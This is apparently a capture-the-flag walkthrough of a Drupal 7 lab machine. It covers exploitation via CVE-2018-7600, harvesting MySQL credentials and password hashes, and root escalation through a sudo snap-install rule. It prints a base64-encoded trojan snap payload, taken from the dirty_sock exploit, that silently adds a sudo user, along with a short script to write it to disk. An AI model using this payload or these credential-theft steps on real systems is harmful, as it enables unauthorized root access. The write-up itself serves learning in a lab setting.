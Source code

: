 
# Enumeration

Some basic nmap scan let us know that this box has 2 opening ports, `22, 80`

Visit the website, navigate around. But I see nothing interested.

Tried to run some directory enumeration with `gobuster` but there is nothing interesting either.

So far, we got no information of what version of software is running on the website.
I go to Burp Suite, try to explore the requests to see if there is anything there.
And then I found something interesting, in the response header, there is a header

`X-..: Drupal 7` 
Now that is not a default header, it is a custom header. So I did some research and found out that Drupal is an CMS, and it has some known vulnerability with version < 7.58

I'd recommend you do some research about the vulnerability and how does it work before using the script for exploiting.

[Here](https://github.com/pimps/CVE-2018-7600/blob/master/drupa7-CVE-2018-7600.py) is the python script for that exploit

# Exploitation

With that python script above, we are able to get RCE on that machine, so first, we need to know how many users are in the system

```
cat /etc/passwd

...
brucetherealadmin:x:1000:1000::/home/brucetherealadmin:/bin/bash
```
Look like we have one user `brucetherealadmin`. 
Now as we all know how web applications work, when we have a web application is running on machine, we always have to check what port it is listening to and what database it is connecting to.

After some search for Drupal web config file, I was able to get this information, they are credentials for MySQL database running in the server

```
$databases = array (
  'default' =>
  array (
    'default' =>
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```

With database credentials, we can get user hashed passwords and crack them
```
mysql -u drupaluser -pCQHEy@9M*m23gBVj drupal -e "select username, password from users;"
```
Copy the hash to our local machine and we can use `hashcat` to crack it


User hash: $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt

user cred: `brucetherealadmin: b****o`

# Post Exploitation

Root part was pretty straight forward. By some low hanging fruit enumeration, we will be able to find this interesting stuff.

```
sudo -l

(ALL) (NO PASSWD) sudo /usr/bin/snap install * 
```
SNAP is like a package manager.

I did some research about snap and its vulnerabilities, I found that SNAP had some vulneribility relate to what is called "Dirty Sock" . But unfortunately, our current SNAP version in our machine is not vulnerable to that.

So what should we do ?
I was kinda stuck on the root part for almost a day, I have to rethink about what do I need to carry out the exploit:
- We can run sudo install snap package, 
- If we can create some malicious snap package and when snap install it as root priv, it can do something for us

I tried to craft a snap package by myself via `snapcraft` with some basic reverse shell code in it but it won't work like that. Because you may install it as root priv, but when you execute that code, you are executing as `brucetherealadmin` user priv

When I come back to read the [dirty sock python](https://github.com/initstring/dirty_sock/blob/master/dirty_sockv2.py) script and see what they are doing, I found something interesting ... 

```
# The following global is a base64 encoded string representing an installable
# snap package. The snap itself is empty and has no functionality. It does,
# however, have a bash-script in the install hook that will create a new user.
# For full details, read the blog linked on the github page above.
TROJAN_SNAP = ('''
aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD/
/////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJh
ZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5
TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERo
T2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawpl
Y2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFt
ZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZv
ciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5n
L2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZt
b2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAe
rFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUj
rkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAA
AAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2
XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5
RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAA
AFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw'''
               + 'A' * 4256 + '==')
```

This binary has Snap file signature and it is contain malicioud code that help us create a new user that have root priv, this is exactly what we need !!!

I wrote this python script to carry out the exploit
```
# The following global is a base64 encoded string representing an installable
# snap package. The snap itself is empty and has no functionality. It does,
# however, have a bash-script in the install hook that will create a new user.
# For full details, read the blog linked on the github page above.
TROJAN_SNAP = ('''
aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD/
/////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJh
ZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5
TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERo
T2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawpl
Y2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFt
ZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZv
ciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5n
L2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZt
b2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAe
rFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUj
rkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAA
AAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2
XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5
RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAA
AFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw'''
               + 'A' * 4256 + '==')

 blob = base64.b64decode(TROJAN_SNAP)
 f = open("evil.snap", "w+b)
 f.write(blob)
 f.close()
 
```

After that, we can execute `sudo /usr/bin/snap install *` , and it will execute ours `evil.snap` file, and we have a new user with this credentials `dirtysock:dirtysock`

Using that creds, we can get root priv
